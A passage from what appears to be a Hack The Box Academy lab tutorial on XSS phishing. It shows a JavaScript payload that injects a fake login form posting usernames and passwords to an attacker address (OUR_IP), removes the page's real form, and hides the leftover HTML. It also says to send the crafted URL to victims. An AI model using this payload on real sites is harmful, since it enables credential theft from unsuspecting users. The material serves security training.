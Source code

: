 To find the `id` of the HTML element we want to remove, we can open the `Page Inspector Picker` by clicking \[`CTRL+SHIFT+C`] and then clicking on the element we need: ![Page Inspector Picker](https://academy.hackthebox.com/storage/modules/103/xss_page_inspector_picker.jpg)

As we see in both the source code and the hover text, the `url` form has the id `urlform`:

Code: html

```html
<form role="form" action="index.php" method="GET" id='urlform'>
    <input type="text" placeholder="Image URL" name="url">
</form>
```

So, we can now use this id with the `remove()` function to remove the URL form:

Code: javascript

```javascript
document.getElementById('urlform').remove();
```

Now, once we add this code to our previous JavaScript code (after the `document.write` function), we can use this new JavaScript code in our payload:

Code: javascript

```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```

When we try to inject our updated JavaScript code, we see that the URL form is indeed no longer displayed:

&#x20; &#x20;

![](https://academy.hackthebox.com/storage/modules/103/xss_phishing_injected_login_form_2.jpg)

We also see that there's still a piece of the original HTML code left after our injected login form. This can be removed by simply commenting it out, by adding an HTML opening comment after our XSS payload:

```html
...PAYLOAD... <!-- 
```

As we can see, this removes the remaining bit of original HTML code, and our payload should be ready. The page now looks like it legitimately requires a login:

&#x20; &#x20;

![](https://academy.hackthebox.com/storage/modules/103/xss_phishing_injected_login_form_3.jpg)

We can now copy the final URL that should include the entire payload, and we can send it to our victims and attempt to trick them into using the fake login form. You can try visiting the URL to ensure that it will display the login form as intended. Also try logging into the above login form and see what happens.
